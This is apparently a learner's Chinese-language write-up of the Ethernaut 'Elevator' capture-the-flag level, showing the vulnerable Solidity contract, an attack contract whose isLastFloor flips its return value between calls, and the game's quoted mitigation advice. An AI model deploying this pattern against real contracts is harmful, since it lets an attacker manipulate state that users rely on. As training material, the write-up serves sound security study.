

This elevator won't let you reach the top of your building. Right?

##### Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```


这里：Building building = Building(msg.sender);

所以这个 isLastFloor是由我们的合约来定义的。

但这个goTo函数逻辑好奇怪啊。。。

就是考察我们外部attack合约可以自己定义goTo

> 本關的關卡合約以msg.sender作為Building合約，即是Building合約現在是可以隨便寫了。
>
> 那我們就很簡單地把isLastFloor函數寫成一個，第一次會回傳False，第二次會回傳True的函數就可以了。


```solidity
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Elevator {
    address levelInstance;
    bool side = true;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function isLastFloor(uint256) external returns (bool) {
        side = !side;
        return side;
    }

    function go() public {
        IElevator(levelInstance).goTo(1);
    }
}
```


部署完后，go即可。




> You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.
>
> An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.


? 没看懂。。。